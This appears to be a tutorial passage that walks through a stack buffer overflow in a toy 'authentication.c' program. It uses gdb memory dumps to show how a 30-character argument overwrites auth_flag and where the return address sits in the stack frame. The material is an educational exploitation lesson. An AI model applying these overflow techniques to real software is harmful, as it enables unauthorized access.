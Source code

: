 'authentication.c' is so simple and looks like granting access only the case of
entering "brillig" or "outgrabe" as an argument.  
But by entering 30 times of 'A', we can exploit this program.  
Let's take a look why this happens.  
```
/*
 * compiled with -fno-stack-protector option
 * set breakpoint at strcpy(password_buffer, password);
 * (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 */
 
(gdb) print &auth_flag  
$1 = (int *) 0x7fffffffdf3c  
(gdb) print &password_buffer  
$2 = (char (*)[16]) 0x7fffffffdf20  
```
By debugging the program, we can find the address of auth_flag is 28 bytes after than password_buffer.    
Since strcpy() does not check boundary, if we give more than 28 bytes(not too much)length of any string as argument, auth_flag will be set to nonzero.
```
/*
 * set breakpoint at return auth_flag;
 * (gdb) c  //abbreviation of continue
 */
(gdb) x/16xw password_buffer
0x7fffffffdf20 : 0x41414141 0x41414141  0x41414141  0x41414141
0x7fffffffdf30 : 0x41414141 0x41414141  0x41414141  0x00004141
0x7fffffffdf40 : 0xffffdf60 0x00007fff  0x5555481e  0x00005555
0x7fffffffdf50 : 0xffffe048 0x00007fff  0x00000000  0x00000002
(gdb) x/u &auth_flag
0x7fffffffdf3c: 16705 // 0x4141 in hex
```
Variable auth_flag is located at 0x7ffffffffdf3c~f(in bold) and it is overwritten to 16705.   
Since this machine is little endian, rightmost 41 is 0x7fffffffdf3c.    
So access will be granted, because any nonzero number is considered as true. This is basic concept of stack overflow.  
  
Here, we have to focus the value of 0x7fffffffdf48~f(in italic).  
```
(gdb) disass main
...
0x0000555555554819 <+72>:  call 0x55555555476a <check_authentication>
0x000055555555481e <+77>:  test eax,eax
...
```
_0x000055555555481e_ is return adress when function check_authentication is end.   
 
```
/*
 * set breakpoint at if(check_authenticatioin(argv[1])) {
 */
(gdb)x/32xw $rsp
0x7fffffffdf50: .....
0x7fffffffdf60: .....
```

```
/*
 * set breakpoint at return auth_flag;
 */
(gdb)x/20xw $rsp
0x7fffffffdf10: 0xffffdf78  0x00007fff  0xffffe3a4  0x00007fff
0x7fffffffdf20: 0x41414141  0x41414141  0x41414141  0x41414141
0x7fffffffdf30: 0x41414141  0x41414141  0x41414141  0x00004141
0x7fffffffdf40: 0xffffdf60  0x00007fff  0x5555481e  0x00005555
0x7fffffffdf50: 0xffffe048  0x00007fff  0x00000000  0x00000002
```
As you can see, 0x7fffffffdf10 ~ 0x7fffffffdf40 is allocated after the function check_authentication() called.   
This is stackframe for check_authentication() in stack. We can separate this by 7 parts.

```
----------------------------------
0x7fffffffdf10: 0x00007fffffffdf78 -> Unknown(maybe padding)
----------------------------------
0x7fffffffdf18: 0x00007fffffffe3a4 -> Func argument (address of 'A' x 30)
----------------------------------
0x7fffffffdf20: 0x4141414141414141 -> local variable(password_buffer)
0x7fffffffdf28: 0x4141414141414141
----------------------------------
0x7fffffffdf30: 0x4141414141414141 -> Unknown(maybe padding)
0x7fffffffdf38: 0x41414141
----------------------------------
0x7fffffffdf3c: 0x00004141         -> Local variable(auth_flag)
----------------------------------
0x7fffffffdf40: 0x00007fffffffdf60 -> Saved frame pointer
----------------------------------
0x7fffffffdf48: 0x000055555555481e -> return address
----------------------------------
```
